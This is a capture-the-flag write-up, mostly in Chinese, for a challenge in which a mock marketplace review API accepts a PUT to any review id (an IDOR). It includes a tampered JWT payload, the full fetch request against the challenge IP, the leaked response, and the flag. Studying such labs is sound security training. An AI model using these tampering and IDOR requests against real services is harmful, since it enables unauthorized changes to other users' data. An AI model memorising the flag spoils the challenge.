


# The Borrowed Reputation

## 題目描述

Marketplace reviews look tidy from the outside, but one operator's reputation can be rewritten if the wrong handle gets trusted.

## 解題思路

進到商品頁 `http://159.89.230.27/listing/rat-builder`，每筆 review 都有 `review-id`，例如 `seed-shadow-op`、`seed-phantom-hacker`、`seed-cyberghost`



我一開始以為是要把我 JWT 的 id 改為其中一個人的 user_id，改完以後就多了一個框框可以輸入

```json
{
  "id": "xyz78",
  "email": "f@f",
  "isVendor": true,
  "iat": 1782136505,
  "exp": 1782741305
}
```



隨便更改以後可以看到他更新評論的方式

```js
fetch("http://159.89.230.27/api/reviews/seed-cyberghost", {
  "headers": {
    "accept": "*/*",
    "accept-language": "zh-TW,zh;q=0.9,en-US;q=0.8,en;q=0.7,zh-Hant;q=0.6,und;q=0.5",
    "content-type": "application/json"
  },
  "referrer": "http://159.89.230.27/listing/rat-builder",
  "body": "{\"reviewText\":\"Worth every penny. Client was shocked at how quickly we got domain aeeeedmin. Stealth features are next level.\"}",
  "method": "PUT",
  "mode": "cors",
  "credentials": "include"
});
```

也就是 `PUT /api/reviews/<reviewId>`，review 它只用 id 辨識而已，所以這個是 IDOR，只要是登入的使用者，就能改別人的 review，而回應會把該 review 的 `moderationNote` 一併吐回來，flag 就藏在裡面

嘗試過後修改 `seed-phantom-hacker` 的評論即可得到 flag，我改成其他人的都沒拿到，不知道為什麼

```json
{
    "success": true,
    "review": {
        "id": "seed-phantom-hacker",
        "listingId": "rat-builder",
        "userId": "k7m3n",
        "reviewText": "Worth every penny. Client was shocked at how quickly we got domain aeeeedmin. Stealth features are next level.",
        "filename": "rat_screenshot.jpg",
        "fileHash": "0c7406664fa3077c4a9a535f424d7ecd",
        "proofPath": "rat-builder/rat_screenshot.jpg",
        "moderationNote": "bitflag{r3v13w_0wn3r5h1p_1s_n0t_4_sugg35t10n}",
        "createdAt": "2026-06-22T16:30:12.810Z"
    },
    "moderationNote": "bitflag{r3v13w_0wn3r5h1p_1s_n0t_4_sugg35t10n}",
    "message": "Review updated successfully."
}
```

## Flag

```text
bitflag{r3v13w_0wn3r5h1p_1s_n0t_4_sugg35t10n}
```
